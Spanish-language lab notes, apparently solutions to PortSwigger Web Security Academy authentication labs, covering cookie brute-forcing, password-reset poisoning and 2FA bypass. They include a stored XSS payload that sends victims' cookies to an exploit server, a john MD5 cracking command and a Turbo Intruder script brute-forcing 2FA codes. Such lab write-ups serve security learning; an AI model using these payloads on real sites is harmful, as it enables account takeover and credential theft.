 # Detalles de mas labs

## Brute-forcing a stay-logged-in cookie

*Credenciales atacante:* wiener:peter

*Nombre Victima:* carlos

**Probando petición con credenciales del atacante**

Se encuentra que la cookie de sesión activa esta usando BASE64 ENCODE
> `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`

A través de Base64 DECODE se obtiene que
> `wiener:51dc30ddc473d43a6011e9ebba6ca770`

Por lo tanto la estructura sigue el siguiente formato

`<USERNAME>:<HASH>`

Ideas:
- Probablemente el hash sea la contraseña del usuario 
- El hash usado es md5

mediante `john` se obtuvo la contraseña de la cuenta del atacante. Esto mediante el algoritmo de hash md5 por lo tanto se puede efectuar el ataque haciendo uso de un proceso inverso.

- Se usa una wordlist de las posibles contraseñas
- Se hashea la contraseña mediante md5
- Se agrega el nombre de usuario antes del hash y el ":"
- Se codifica toda la cadena en base64
- Se prueba la cookie de session activa.

## Offline password cracking

Se uso **XSS** en la sección de comentarios de los post, Esto con el objetivo de obtener las cookies de los usuarios que ingresan al post con código malicioso.

Payload usado en los comentarios:
> `<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>`

Ahora tocaría esperar y observar las peticiones realizadas al server de explotación, por ejemplo:
> `...GET /secret=108m4GdGVmuIUqc7JFT2TT0AKJ7P4gNG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz...`

Por lo tanto la cookie de la sesión activa es
> `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

El cual decodificado se obtiene:
> `carlos:26323c16d5f4dabff3bb136f2460a943 `

Mediante fuerza bruta offline se obtiene la contraseña
> `sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5`


## Password reset poisoning via middleware

Se observa que se puede agregar el encabezado de`X-Forwarded-Host` a la petición de *olvidar contraseña*
> `X-Forwarded-Host: <EXPLOIT_SERVER>`

Se edita la petición para el usuario de `carlos` y se agrega el anterior encabezado.

Mediante un server de explotación que actué como middleware se puede obtener el token para restablecer la contraseña
> `KIQ4eS0Ys7EZ7dbXze4xNWewkOx2DvZB`

Por lo tanto se puede ir al siguiente url con el token obtenido
> `https://0a2800e503574804c01c507e0014003a.web-security-academy.net/forgot-password?temp-forgot-password-token=KIQ4eS0Ys7EZ7dbXze4xNWewkOx2DvZB`

# 2FA bypass using a brute force attack

Código usado en Turbo Intruder
```
#Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           pipeline=False,
                           engine=Engine.BURP
                           )

    for num in range(0, 10000):
        nfa_code = '{0:04}'.format(num)
        engine.queue(target.req, nfa_code)

def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)
```